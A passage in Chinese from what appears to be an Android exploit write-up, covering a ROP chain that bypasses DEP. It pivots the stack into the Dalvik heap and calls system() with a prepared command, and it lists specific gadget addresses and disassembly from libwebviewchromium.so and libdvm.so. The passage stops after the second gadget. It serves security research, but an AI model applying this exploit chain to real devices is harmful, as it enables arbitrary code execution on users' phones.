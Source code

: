 0x02 ROP Chain
==============

* * *

由于Android使用了DEP，因此Dalvik-heap上的内存不能用来执行，这就必须使用ROP技术，使PC跳转到一系列合法指令序列（Gadget），并由这些Gadget“拼凑”而成shellcode。这里我们将使用ROP Gadget调用system函数执行代码。

使用ROPGadget这个工具，在zygote加载的基础模块（如libc.so、libwebviewchromium.so、libdvm.so）上进行搜索，把arm code当做thumb code来搜索，可以增加更多的候选指令序列。

为了调用system函数，需要控制r0寄存器，指向我们预先布置的命令行字符串作为参数。这里需要使用Stack Pivot技术，将栈顶指针SP指向控制的Dalvik-heap堆中的数据，这将为控制PC寄存器、以及在栈上布置数据带来便利。利用

```
ROPgadget --thumb --binary libwebviewchromium.so

```

可找到如下Gadget

Gadget1
-------

为Stack Pivot作准备

in libwebviewchromium.so

```
70a93c:       682f            ldr     r7, [r5, #0]  #r5=STATIC_ADDRESS, r7=[STATIC_ADDRESS]=GADGET_BUFFER
70a93e:       4628            mov     r0, r5       #r0=STATIC_ADDRESS
70a940:       68b9            ldr     r1, [r7, #8] #r1=[GADGET_BUFFER+8]
70a942:       4788            blx     r1

```

或者

```
4fed02:       4628            mov     r0, r5           #r5 = STATIC_ADDRESS
4fed04:       682f            ldr     r7, [r5, #0]     #r7 = [STATIC_ADDRESS] = GADGET_BUFFER
4fed06:       f8d4 8048       ldr.w   r8, [r4, #72]   ; 0x48
4fed0a:       68b9            ldr     r1, [r7, #8]     #r1 = [GADGET_BUFFER+8]
4fed0c:       4788            blx     r1

```

因此，GADGET_BUFFER+8这个地址需要指向第二个Gadget

Gadget2
-------

Stack Pivot

in libdvm.so

```
664c4:       f107 0708       add.w   r7, r7, #8   #r7=r7+8=GADGET_BUFFER+8
664c8:       46bd            mov     sp, r7       #sp=GADGET_BUFFER+8
664ca:       bdb0            pop     {r4, r5, r7, pc}
# r4=[GADGET_BUFFER+8],r5=[GADGET_BUFFER+12],r7=[GADGET_BUFFER+16],pc=[GADGET_BUFFER+20], sp=GADGET_BUFFER+24

```
